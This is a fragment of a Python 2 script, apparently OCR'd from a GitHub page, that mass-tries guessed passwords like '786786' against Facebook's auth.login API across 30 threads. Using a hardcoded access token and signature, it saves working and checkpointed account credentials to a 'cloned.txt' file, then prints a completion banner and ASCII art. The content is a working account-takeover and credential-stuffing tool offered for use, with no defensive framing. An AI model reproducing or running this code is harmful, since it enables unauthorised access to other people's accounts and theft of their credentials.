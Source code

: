                                     data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
    ███
──────────███║║║║║║║███
─────────█║║║║║║║║║║║║║█
────────█║║║║███████║║║║█
───────█║║║║██─────██║║║║█
──────█║║║║██───────██║║║║█
─────█║║║║██─────────██║║║║█
─────█║║║██───────────██║║║█